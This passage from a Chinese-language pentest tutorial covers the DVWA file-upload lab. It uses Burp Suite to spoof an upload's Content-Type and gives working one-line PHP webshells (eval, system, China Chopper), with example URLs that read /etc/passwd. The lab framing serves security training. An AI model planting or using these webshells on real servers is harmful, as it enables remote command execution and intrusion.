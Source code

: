 a. 开启burpsuite的代理功能（直接在kali上面操作）

选择 proxy - options，添加端口代理转发：

![image-20220901215309446](C:\Users\xtanx\Desktop\typora\.assets\image-20220901215309446.png)

b. 开启代理拦截功能：

![image-20220901215727626](C:\Users\xtanx\Desktop\typora\.assets\image-20220901215727626.png)

c. 打开windows渗透机器，配置火狐浏览器使用burpsuite代理：

![image-20220901220128755](C:\Users\xtanx\Desktop\typora\.assets\image-20220901220128755.png)

d. 上传php文件：

![image-20220901220521106](C:\Users\xtanx\Desktop\typora\.assets\image-20220901220521106.png)

e. 此时，请求被burpsuite拦截了，这边将Content-Type类型改成 image/jpeg，然后点击Forward转发：

![image-20220901220937674](C:\Users\xtanx\Desktop\typora\.assets\image-20220901220937674.png)

此时我们可以看到已经上传成功了

![image-20220901221155128](C:\Users\xtanx\Desktop\typora\.assets\image-20220901221155128.png)

### 3. high高安全级别，限制了文件的后缀名

---



## 3.webshell

- 小马：一句话木马，即整个shell代码只有一行，一般是系统执行函数

- 大马：代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙入侵系统检测到

*eval 调用函数*

```php
<?php eval($_REQUEST['cmd']);?>
```

例如：http://10.61.8.209/dvwa/hackable/uploads/shell1.php?cmd=phpinfo();

*system 使用linux系统命令*

```php
<?php system($_REQUEST['variable']);?>
```

例如：http://10.61.8.209/dvwa/hackable/uploads/shell2.php?variable=cat /etc/passwd

**说明： REQUEST是在网页输入变量访问，POST则是使用中国菜刀之类的工具连接，是c/s架构。所以我一般用POST方式更方便。**

中国菜刀：

```php
<?php @eval($_POST['chopper']);?>
```

---